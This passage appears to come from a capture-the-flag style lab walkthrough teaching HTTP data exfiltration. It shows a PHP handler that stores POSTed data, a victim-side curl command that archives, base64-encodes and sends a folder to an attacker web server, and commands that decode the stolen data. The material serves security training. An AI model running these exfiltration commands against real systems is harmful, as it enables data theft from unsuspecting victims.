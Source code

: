 To exfiltrate data over the HTTP protocol, we can apply the following steps:

1. An attacker sets up a web server with a data handler. In our case, it will be web.thm.com and the contact.php page as a data handler.
2. A C2 agent or an attacker sends the data. In our case, we will send data using the curl command.
3. The webserver receives the data and stores it. In our case, the contact.php receives the POST request and stores it into /tmp.
4. The attacker logs into the webserver to have a copy of the received data.

Data handler (contact.php):

	<?php 
		if (isset($_POST['file'])) {
		        $file = fopen("/tmp/http.bs64","w");
		        fwrite($file, $_POST['file']);
		        fclose($file);
		   }
		?>

Victim

	curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php

Webserver

	sudo sed -i 's/ /+/g' /tmp/http.bs64
	cat /tmp/http.bs64 | base64 -d | tar xvfz -